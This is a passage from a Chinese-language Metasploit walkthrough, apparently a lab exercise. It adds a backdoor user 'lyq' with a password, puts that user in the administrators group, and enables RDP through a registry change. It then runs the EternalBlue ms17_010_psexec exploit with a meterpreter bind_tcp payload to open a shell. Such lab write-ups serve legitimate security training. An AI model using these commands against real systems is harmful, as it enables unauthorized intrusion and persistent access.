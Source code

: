 ```
set command net user lyq djxlyq63 /add
```

![image-20241210232146623](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441600.png)

将新增的用户加到管理组(不过这里没run，参考第一问，为远程登录做准备)

```
set command net localgroup administrators lyq /add
```

![image-20241210232058221](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441897.png)

这个是修改系统注册表信息，添加fDenyTSConnections 变量，格式为REG_DWORD ,值为0，相当于开启远程登录，打开3389端口。

```
set command "reg add HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f"
```

![image-20241210232316845](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441914.png)

```
run
```

![image-20241210232344534](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441927.png)

选用永恒之蓝攻击模块

```
use exploit/windows/smb/ms17_010_psexec
```

![image-20241210232427300](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441940.png)

选用攻击载荷

可以通过show payloads查看可以利用的载荷

```
set payload windows/meterpreter/bind_tcp
```

![image-20241210232450815](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441956.png)

运行

```
run
```

![image-20241210232543261](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441971.png)

进入终端

```
shell
```

